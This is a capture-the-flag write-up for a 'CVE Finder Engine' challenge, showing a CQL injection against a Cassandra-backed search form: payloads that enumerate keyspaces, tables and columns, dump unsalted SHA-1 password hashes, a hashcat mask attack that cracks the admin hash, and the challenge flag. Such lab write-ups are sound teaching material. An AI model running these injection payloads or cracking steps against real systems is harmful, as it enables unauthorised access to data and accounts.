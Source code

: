 # CVE Finder Engine

![](./img/author-elf.svg) ![](./img/difficulty-medium.svg) ![](./img/category.svg)

![](./img/cvefinder-desc.png)

## First steps

We can see a wonderful CVE finder that has interesting vulnerabilities to present to us.

![](./img/cvefinder-1.png)

When we search for `CVE-2018-6242` (as per the example), we can see that a request is made, containing the fields `query=CVE-2018-6242&fields=code%2Cname%2Crelease_date%2Cseverity`. Since `%2C` is the encoding for the comma, it really feels like the request is a simple list of fields that is put as is in the SQL query. When we remove the `query` value, we get the whole list of CVE on the website. Nothing interesting yet.

What I wanted to find immediately was the list of users on the website. I felt like a guessing master and tried `query=&fields=username AS code%2Cpassword as name FROM users; --` with unfortunately not the list of usernames.

However, the server responded with `An error occurred during the execution of the CQL request.` which gave me a wonderful information: this is CQL, not SQL. Some of my SQLi payloads would not work, so I decided to give up here and learn a little bit more about Cassandra and its CQL language.

## Making sure we have Cassandra

I wanted to get a simple text and see if it worked, and it didn't with a simple SQL-like query.

```sql
'text' AS code
```

Which is very unfortunate, but SO gave me a workaround.

```sql
blobAsText(textAsBlob('test')) as code
```

It worked properly! I'm now convinced I really work with a Cassandra database and the CQL language. We're one step closer to success!

![](https://media.giphy.com/media/lMameLIF8voLu8HxWV/giphy.gif)

## Discovering keyspaces, tables and columns

The next step is to stop guessing what exists and what doesn't, and actually try to find information about the database we're working with. With the help of many SO questions and [Datastax documentation](https://docs.datastax.com/en/dse/6.0/cql/cql/cql_using/useQuerySystemTable.html), I have worked a new payload.

```sql
keyspace_name AS code FROM system_schema.keyspaces ALLOW FILTERING; --
```

This is supposed to give us all keyspaces existing, to narrow down our table research and immediately evict internal tables that would hide the results I'm searching for.

```
system_auth     
system_schema     
system_distributed     
system     
system_traces     
database
```

We can see the `database` keyspace that seems to be what we're looking for (all other keyspaces seem to be internal given the `system` prefix). Let's retrieve the tables.

```sql
table_name AS code FROM system_schema.tables WHERE keyspace_name='database' ALLOW FILTERING; --
```

```
cve     
users   
```

And now the columns' name.

```sql
column_name AS code FROM system_schema.columns WHERE keyspace_name='database' AND table_name = 'users' ALLOW FILTERING; --
```

```
id     
name     
password    
```

## Extracting user information and connecting

Now that we know where to look, with a simple payload we can retrieve the password.

```sql
name, password as code FROM users ALLOW FILTERING; --
```

```
54b58118ed59617f30d207004be6fa87e7f129a5     test
236562b8c015d15f2ccae718e7b333f88ab6d459     elf
f005706dc98a95af199603065a43ead8ba249dc6     admin
```

We can see hashes (without salt) for our accounts, with the length of a SHA-1 hash. I was afraid I would be confronted to hashes, because I only know two ways to retrieve the password:

- Having enough passwords to see a pattern and imagine it is a weak password

- Bruteforce my way in

And since we don't have enough passwords to analyse identical passwords, I am left with only one choice: bruteforcing.

I've created a file names `passwordstofind` containing all three hashes, and launched my favorite `hashcat` command.

```bash
hashcat -m 100 -a 0 passwordtofind  /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
```

This command does not work on all three passwords and I am now very sad. But there is one last bruteforce that I want to attempt.

```bash
hashcat -m 100 -a 3 passwordtofind
```

After a few seconds, I have an interesting output: `f005706dc98a95af199603065a43ead8ba249dc6:s0w34k`, which is the admin's hash. I login with `admin:s0w34k` and am greeted with this wonderful message.

![](./img/cvefinder-2.png)

Flag `RM{CQL_1nj3ct10n_+_w34k_p4ssw0rd_ftw}`
